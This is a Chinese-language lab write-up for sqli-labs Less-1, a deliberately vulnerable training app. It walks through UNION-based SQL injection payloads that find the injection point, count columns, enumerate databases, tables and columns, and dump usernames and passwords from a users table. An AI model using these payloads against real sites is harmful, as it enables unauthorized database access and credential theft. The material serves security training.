

### 2、sqli-labs-less-1

##### 1、访问less-1的页面

###### 1.1、地址为： ip/sqli-labs/Less-1


##### 2、注入

###### 2.1、根据页面提示，输入ID作为带数值的参数---判断是否有注入点


id后面接入英文单引号空格报错，判断可能有注入点


输入 ’ and ‘1’='1不报错，确定存在注入点


###### 2.2、开始注入，获取库名，表名，列名信息，并查找表数据
2.2.1 判断当前可注入表的列数
```
?id=1' order by 3 --+

order by 数字: 根据列名排序，order by后面直接跟数字表示为，根据前几列进行排序，所以可以使用这种方法进行列数的确定

从 1.2..3 是正常返回数据，当order by为4时，报错，说明当前sql语句查询的这个表列数为3

```



2.2.2 获取当前数据库名
```
?id=-1' union select 1,2,database() --+

nuion:
1、为联合查询，union前的数据要为“假”
2、用于连接两个以上的select语句到一个结果集中，输入表中超出的列数会报错---上面已经试过列数为3

database() : 数据库函数，返回默认或当前数据库的名称

--+ :注释后面的单引号和拼接

```


2.2.3 获取所有数据库

```

?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+

group_concat:将查询出的数据进行拼接

information_schema: mysql中的数据信息表，里面包含有所有的库，表，列名的记录

schemata: 上述库中的其中表的名称

```


2.2.4 获取某个库中的所有表

```

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

```


2.2.5 获取用户表(users)中的列名

```

?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security'and table_name ='users' --+

and:表示条件并列

```


2.2.6 获取用户表(users)中的信息

```

?id=-1' union select 1,2,group_concat(id,"-",username,"-",password) from users --+

```


